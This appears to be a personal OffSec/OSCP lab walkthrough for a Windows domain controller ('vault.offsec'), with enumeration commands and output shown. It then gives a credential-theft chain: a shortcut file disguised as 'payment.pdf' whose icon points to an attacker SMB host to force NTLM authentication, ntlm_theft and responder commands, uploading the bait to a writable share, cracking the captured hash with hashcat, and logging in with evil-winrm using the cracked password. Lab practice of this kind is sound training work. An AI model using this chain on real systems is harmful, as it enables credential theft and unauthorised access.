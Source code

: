 # Hack track Assembling the pieces 3
# # Exghost**192.168.205.172**

- start with ping, ttl can tell you what type of host it is, windows/linux, etc
- sudo nmap -sCV -p- ip --min-rate=3000 --reason -v 
- sudo nmap -Pn -sU --top-ports 16 -T4 IP --reason
- 
sudo nmap -vv --reason -Pn -T4 -sU --top-ports 20 -oN "./scans/nmap_UDP_20.txt" --open 192.168.205.172   

## Enumeration
# ## Initial Scans
```bash 
UDP nmap

```

```bash 
TCP nmap

```

- from open ports, we're seeing it's DC
- So enumerate AD ports..
## AD
- domain = vault.offsec aNY
- 192.168.205.172 vault.offsec
```bash

```

## DNS Enumeration
```bash
dig @192.168.205.172  vault.offsec any

; <<>> DiG 9.20.11-4+b1-Debian <<>> @192.168.205.172 vault.offsec any
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44103
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;vault.offsec.                  IN      ANY

;; ANSWER SECTION:
vault.offsec.           600     IN      A       192.168.120.98
vault.offsec.           600     IN      A       192.168.120.116
vault.offsec.           3600    IN      NS      dc.vault.offsec.
vault.offsec.           3600    IN      SOA     dc.vault.offsec. hostmaster.vault.offsec. 34 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.vault.offsec.        3600    IN      A       192.168.205.172

;; Query time: 23 msec
;; SERVER: 192.168.205.172#53(192.168.205.172) (TCP)
;; WHEN: Sat Oct 18 18:10:25 CEST 2025
;; MSG SIZE  rcvd: 153
```
### Try DNS XFER for zone transfer
```bash
dig @192.168.205.172  vault.offsec axfr
```

### SMB
```bash
# check for anonymous bind
nxc smb 192.168.205.172 -u "" -p "" --shares

# check for guest access 
nxc smb 192.168.205.172 -u "guest" -p "" --shares
SMB         192.168.205.172 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         192.168.205.172 445    DC               [+] vault.offsec\guest: 
SMB         192.168.205.172 445    DC               [*] Enumerated shares
SMB         192.168.205.172 445    DC               Share           Permissions     Remark
SMB         192.168.205.172 445    DC               -----           -----------     ------
SMB         192.168.205.172 445    DC               ADMIN$                          Remote Admin
SMB         192.168.205.172 445    DC               C$                              Default share
SMB         192.168.205.172 445    DC               DocumentsShare  READ,WRITE      
SMB         192.168.205.172 445    DC               IPC$            READ            Remote IPC
SMB         192.168.205.172 445    DC               NETLOGON                        Logon server share 
SMB         192.168.205.172 445    DC               SYSVOL                          Logon server share 

# 
nxc smb 192.168.205.172 -u "guest" -p "" --generate-hosts-file ./scans/hosts



```
### 

## Forced Authentication & .lnk File abuse
- better than word macros as EDR and macro disablement is widespread in 2025
- aslo MoTW is a problem
-  WE can replace lnk files to point to a remote file
- we can also make lnk files use binary, to exeucte some command we want
- 
```bash

windows desktop 
new shortcut
%WINDIR% 
next
name: "payment.pdf"
finish

WE will change icon to look like PDF.
If target doesnt have show file extensions on, our LNK will look like a .pdf file

target
%ComSpec% /c echo pwned >%UserProfile\desktop\hacked.txt

# comspec is cmd.exe


change icon
path
\\192.168.1.1\test.ico
hit OK, there will be an error..

When user RENDERS icon, explorer.exe will try to fetch the icon.. no user-interaction required.
This provides us with a HASH, from the target user/computer

search google

generate force NTLMv2 Authentication files site:github.com

https://github.com/Greenwolf/ntlm_theft

This is allowed on OSCP as it is NOT automatic exploitation

```

```bash
# https://github.com/Greenwolf/ntlm_theft

python3 ntlm_theft.py -g all -s 192.168.45.245 -f payment.pdf


# responder is only in analyze mode, no poisoning or spoofing is being used
sudo responder -I tun0 -A


smbclient \\\\192.168.165.172\\DocumentsShare
put payment.pdf.lnk

# check responder, we should see NTLMv2 hit

hashcat hash /usr/share/wordlists/rockyou.txt

# NTLMv2 should be auto detected..
# if we can't crack, we can also relay

PASS: SecureHM

```

Now that we have a password, we should re-enumerate shares
```bash
nxc smb 192.168.205.172 -u "anirudh" -p "SecureHM" --shares

nxc winrm 192.168.205.172 -u "anirudh" -p "SecureHM" --shares

evil-winrm -i 192.168.205.172 -u "anirudh" -p "SecureHM" 


```
